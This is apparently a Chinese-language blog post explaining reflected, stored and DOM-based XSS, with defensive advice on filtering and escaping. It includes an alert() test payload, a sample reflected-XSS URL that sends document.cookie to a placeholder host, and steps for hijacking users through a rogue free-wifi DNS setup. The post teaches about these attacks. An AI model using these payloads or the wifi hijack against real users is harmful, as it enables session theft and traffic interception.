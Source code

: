 ```yaml
---
title: "[XSS]对于简单的XSS攻击的概念梳理"
layout: post
categories: sddtc tech
date: "2019-09-06"
guid: urn:uuid:28b12cf0-4508-45d1-aaa5-8dde60d94eb5
tags:
  - xss
---
```


### 背景
前阵子想了解一些关于XSS攻击的知识，于是在网上翻阅了一些有关XSS的概念，于是我总结了下来，今天清理电脑的时候发现这篇文章，故提交之。

# XSS - Cross-site scripting
1. Reflected XSS（基于反射的XSS攻击）
2. Stored XSS（基于存储的XSS攻击）
3. DOM-based or local XSS（基于DOM或本地的XSS攻击）

## Reflected XSS
主要依靠站点服务端返回脚本，在客户端触发执行从而发起Web攻击

例子：
1. 在搜索框搜索内容或者URL直接写入脚本，`<script>alert('handsome boy')</script>`, 点击搜索或者回车。
2. 当前端页面没有对返回的数据进行过滤，直接显示在页面上， 这时就会alert那个字符串出来。
3. 进而可以构造获取用户cookies的地址，通过QQ群或者垃圾邮件，来让其他人点击这个地址：

```
http://www.amazon.cn/search?name=<script>document.location='http://xxx/get?cookie='+document.cookie</script>
PS：这个地址当然是没效的，只是举例子而已。
```

结论：
如果第3步能做成功，才是个像样的XSS攻击。

开发安全措施：
1. 前端在显示服务端数据时候，不仅是标签内容需要过滤、转义，就连属性值也都可能需要。
2. 后端接收请求时，验证请求是否为攻击请求，攻击则屏蔽


## Stored XSS
基于存储的XSS攻击，是通过发表带有恶意跨域脚本的帖子/文章，从而把恶意脚本存储在服务器，每个访问该帖子/文章的人就会触发执行

例子：
1. 发一篇文章，里面包含了恶意脚本

```
今天天气不错啊！<script>alert('handsome boy')</script>
```

2. 后端没有对文章进行过滤，直接保存文章内容到数据库。
3. 当其他看这篇文章的时候，包含的恶意脚本就会执行。

因为大部分文章是保存整个HTML内容的，前端显示时候也不做过滤，就极可能出现这种情况。

结论：
后端尽可能对提交数据做过滤，在场景需求而不过滤的情况下，前端就需要做些处理了。

开发安全措施：
1. 首要是服务端要进行过滤，因为前端的校验可以被绕过。
2. 当服务端不校验时候，前端要以各种方式过滤里面可能的恶意脚本，例如script标签，将特殊字符转换成HTML编码。

## DOM-based or local XSS
基于DOM或本地的XSS攻击。
一般是提供一个免费的wifi，但是提供免费wifi的网关会往你访问的任何页面插入一段脚本或者是直接返回一个钓鱼页面，从而植入恶意脚本。这种直接存在于页面，无须经过服务器返回就是基于本地的XSS攻击。

例子：
1. 提供一个免费的wifi。
1. 开启一个特殊的DNS服务，将所有域名都解析到我们的电脑上，并把Wifi的DHCP-DNS设置为我们的电脑IP。
2. 之后连上wifi的用户打开任何网站，请求都将被我们截取到。我们根据http头中的host字段来转发到真正服务器上。
3. 收到服务器返回的数据之后，我们就可以实现网页脚本的注入，并返回给用户。
4. 当注入的脚本被执行，用户的浏览器将依次预加载各大网站的常用脚本库。

这个其实就是wifi流量劫持，中间人可以看到用户的每一个请求，可以在页面嵌入恶意代码，使用恶意代码获取用户的信息，可以返回钓鱼页面。

https://www.cnblogs.com/index-html/p/wifi_hijack_3.html
